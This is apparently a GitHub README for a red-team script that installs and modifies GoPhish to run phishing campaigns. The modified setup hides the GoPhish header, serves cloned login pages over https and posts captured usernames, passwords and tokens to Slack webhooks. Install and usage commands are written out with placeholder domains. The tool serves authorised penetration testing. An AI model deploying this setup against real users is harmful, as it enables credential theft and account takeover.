 # GoPhish Slack Phishing Credential Harvester

GoPhish Slack Phishing Credential Harvester is a penetration testing and red teaming script that installs GoPhish, generates an SSL certificate, and enables Slack integration.

## Main Features

 - Modifies GoPhish source code to change the default GoPhish email header
 - Modifies GoPhish source code to allow the GoPhish admin portal to be Internet accessible
 - Creates a GoPhish service for quick and easy starting and stopping
 - Optionally uses a tmux session instead of creating a service
 - Optionally generates an SSL certificate
 - Optionally modifies GoPhish source code to serve the phishing landing page over https
 - Optionally modifies GoPhish source code to add Slack integration
 - Optionally posts data into Slack using bold format instead of code block format

## Installation

Clone the GitHub repository and allow the script to be executed
```
git clone https://github.com/jamesm0rr1s/GoPhish-Slack-Phishing-Credential-Harvester /opt/jamesm0rr1s/GoPhish-Slack-Phishing-Credential-Harvester
chmod +x /opt/jamesm0rr1s/GoPhish-Slack-Phishing-Credential-Harvester/gophish-slack.sh
```

## Usage

 - Create two Slack channels
   - One is only for the login data that is submitted
   - One is for the detailed data including details on opened emails, clicked links, and submitted data
 - Clone a login page with the username field named "username", password field named "password", and token field named "token"
 - Run the following command with URLs to the two slack channels:
```
/opt/jamesm0rr1s/GoPhish-Slack-Phishing-Credential-Harvester/gophish-slack.sh https phishingdomain.com SlackLoginDataWebhookUrl SlackDetailedDataWebhookUrl
```

### Sample Usage

Compile GoPhish without the GoPhish email header
```
gophish-slack.sh http 1.2.3.4
gophish-slack.sh http phishingdomain.com
```

Compile GoPhish without the GoPhish email header and generate an SSL certificate
```
gophish-slack.sh https phishingdomain.com
```

Compile GoPhish without the GoPhish email header and add Slack integration
```
gophish-slack.sh http 1.2.3.4 https://hooks.slack.com/services/abc/def/ghi https://hooks.slack.com/services/jkl/mno/pqr
gophish-slack.sh http phishingdomain.com https://hooks.slack.com/services/abc/def/ghi https://hooks.slack.com/services/jkl/mno/pqr
```

Compile GoPhish without the GoPhish email header, generate an SSL certificate, and add Slack integration
```
gophish-slack.sh https phishingdomain.com https://hooks.slack.com/services/abc/def/ghi https://hooks.slack.com/services/jkl/mno/pqr
```

## Starting & Stopping GoPhish

Start the GoPhish service
```
service gophish start
```

Stop the GoPhish service
```
service gophish stop
```

## Example Screenshots

### GoPhish Generic Phishing Login Page

![ExampleOutput-PhishingLoginPage](screenshot-phishing-login-page.png?raw=true "ExampleOutput-PhishingLoginPage")

### Slack Phishing Logins Bold Format

![ExampleOutput-SlackLogins](screenshot-slack-phishing-logins-bold.png?raw=true "ExampleOutput-SlackLogins")

### Slack Phishing Details Bold Format

![ExampleOutput-SlackDetails](screenshot-slack-phishing-details-bold.png?raw=true "ExampleOutput-SlackDetails")

### Slack Phishing Logins Code Block Format

![ExampleOutput-SlackLogins](screenshot-slack-phishing-logins-codeblock.png?raw=true "ExampleOutput-SlackLogins")

### Slack Phishing Details Code Block Format

![ExampleOutput-SlackDetails](screenshot-slack-phishing-details-codeblock.png?raw=true "ExampleOutput-SlackDetails")